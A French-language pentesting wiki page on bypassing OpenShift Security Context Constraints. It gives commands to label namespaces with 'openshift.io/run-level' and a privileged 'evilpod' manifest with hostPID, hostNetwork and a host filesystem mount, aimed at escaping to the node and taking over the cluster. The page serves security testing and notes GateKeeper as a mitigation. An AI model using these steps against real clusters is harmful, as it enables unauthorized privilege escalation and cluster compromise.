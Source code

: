 # Openshift - Contournement de SCC

**L'auteur original de cette page est** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## Espaces de noms privilégiés

Par défaut, SCC ne s'applique pas aux projets suivants :

* **default**
* **kube-system**
* **kube-public**
* **openshift-node**
* **openshift-infra**
* **openshift**

Si vous déployez des pods dans l'un de ces espaces de noms, aucun SCC ne sera appliqué, permettant le déploiement de pods privilégiés ou le montage du système de fichiers hôte.

## Étiquette d'espace de noms

Il existe un moyen de désactiver l'application SCC sur votre pod selon la documentation de RedHat. Vous devrez avoir au moins l'une des autorisations suivantes :

* Créer un espace de noms et créer un pod dans cet espace de noms
* Modifier un espace de noms et créer un pod dans cet espace de noms
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
Le label spécifique `openshift.io/run-level` permet aux utilisateurs de contourner les SCC pour les applications. Selon la documentation de RedHat, lorsque ce label est utilisé, aucun SCC n'est appliqué à tous les pods dans cet espace de noms, supprimant ainsi efficacement toutes les restrictions.

<figure><img src="../../../.gitbook/assets/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## Ajouter un Label

Pour ajouter le label dans votre espace de noms :
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
Pour créer un espace de nom avec l'étiquette via un fichier YAML :
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
Maintenant, tous les nouveaux pods créés dans l'espace de noms ne doivent pas avoir de SCC

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

En l'absence de SCC, il n'y a aucune restriction sur la définition de votre pod. Cela signifie qu'un pod malveillant peut être facilement créé pour s'échapper sur le système hôte.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
Maintenant, il est devenu plus facile d'escalader les privilèges pour accéder au système hôte et prendre ensuite le contrôle de l'ensemble du cluster, en obtenant des privilèges de 'cluster-admin'. Recherchez la partie **Post-exploitation du nœud** sur la page suivante :

{% content-ref url="../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md" %}
[attacking-kubernetes-from-inside-a-pod.md](../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md)
{% endcontent-ref %}

### Étiquettes personnalisées

De plus, en fonction de la configuration cible, certaines étiquettes / annotations personnalisées peuvent être utilisées de la même manière que dans le scénario d'attaque précédent. Même si ce n'est pas prévu, les étiquettes pourraient être utilisées pour accorder des autorisations, restreindre ou non un certain type de ressource.

Essayez de rechercher des étiquettes personnalisées si vous pouvez lire certaines ressources. Voici une liste de ressources intéressantes :

* Pod
* Déploiement
* Espace de noms (Namespace)
* Service
* Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## Liste de tous les espaces de noms privilégiés
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Exploitation avancée

Dans OpenShift, comme démontré précédemment, avoir la permission de déployer un pod dans un espace de noms avec l'étiquette `openshift.io/run-level` peut conduire à une prise de contrôle directe du cluster. D'un point de vue des paramètres du cluster, cette fonctionnalité **ne peut pas être désactivée**, car elle est inhérente à la conception d'OpenShift.

Cependant, des mesures d'atténuation telles que **Open Policy Agent GateKeeper** peuvent empêcher les utilisateurs de définir cette étiquette.

Pour contourner les règles de GateKeeper et définir cette étiquette pour exécuter une prise de contrôle du cluster, **les attaquants devraient identifier des méthodes alternatives.**

## Références

* [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
* [https://docs.openshift.com/container-platform/3.11/admin\_guide/manage\_scc.html](https://docs.openshift.com/container-platform/3.11/admin\_guide/manage\_scc.html)
* [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)
